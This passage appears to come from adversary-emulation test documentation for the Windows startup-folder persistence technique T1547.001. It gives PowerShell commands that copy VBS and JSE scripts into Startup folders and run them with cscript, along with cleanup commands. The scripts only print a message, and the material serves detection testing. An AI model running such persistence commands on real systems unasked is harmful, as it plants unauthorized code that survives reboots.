 **Supported Platforms:** Windows

**auto_generated_guid:** 2cb98256-625e-4da9-9d44-f2e5f90b8bd5

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Copy-Item "$PathToAtomicsFolder\T1547.001\src\vbsstartup.vbs" "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs"
Copy-Item "$PathToAtomicsFolder\T1547.001\src\vbsstartup.vbs" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs"
cscript.exe "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs"
cscript.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs"
```

#### Cleanup Commands:

```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs" -ErrorAction Ignore
Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #5 - Suspicious jse file run from startup Folder

jse files can be placed in and ran from the startup folder to maintain persistance.
Upon execution, "T1547.001 Hello, World JSE!" will be displayed twice.
Additionally, the new files can be viewed in the "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
folder and will also run when the computer is restarted and the user logs in.

**Supported Platforms:** Windows

**auto_generated_guid:** dade9447-791e-4c8f-b04b-3a35855dfa06

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Copy-Item "$PathToAtomicsFolder\T1547.001\src\jsestartup.jse" "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\jsestartup.jse"
Copy-Item "$PathToAtomicsFolder\T1547.001\src\jsestartup.jse" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\jsestartup.jse"
cscript.exe /E:Jscript "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\jsestartup.jse"
cscript.exe /E:Jscript "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\jsestartup.jse"
```

#### Cleanup Commands:
